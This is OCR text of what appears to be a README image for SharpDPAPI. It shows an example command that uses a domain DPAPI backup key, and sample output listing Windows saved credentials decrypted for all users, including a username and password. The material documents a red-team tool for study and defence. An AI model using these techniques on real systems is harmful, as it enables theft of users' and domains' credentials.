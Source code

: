 
    [*] Action: User DPAPI Credential Triage

    [*] Triaging Credentials for ALL users


    Folder       : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

      CredFile           : 48C08A704ADBA03A93CD7EC5B77C0EAB

        guidMasterKey    : {885342c6-028b-4ecf-82b2-304242e769e0}
        size             : 436
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      : Local Credential Data

        LastWritten      : 1/22/2019 2:44:40 AM
        TargetName       : Domain:target=TERMSRV/10.4.10.101
        TargetAlias      :
        Comment          :
        UserName         : DOMAIN\user
        Credential       : Password!

      ...(snip)...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe credentials /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: User DPAPI Credential Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
    ...(snip)...

    [*] Triaging Credentials for ALL users


    Folder       : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

      CredFile           : 48C08A704ADBA03A93CD7EC5B77C0EAB

        guidMasterKey    : {885342c6-028b-4ecf-82b2-304242e769e0}
        size             : 436
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      : Local Credential Data

        LastWritten      : 1/22/2019 2:44:40 AM
        TargetName       : Domain:target=TERMSRV/10.4.10.101
        TargetAlias      :
        Comment          :
        UserName         : DOMAIN\user
        Credential       : Password!
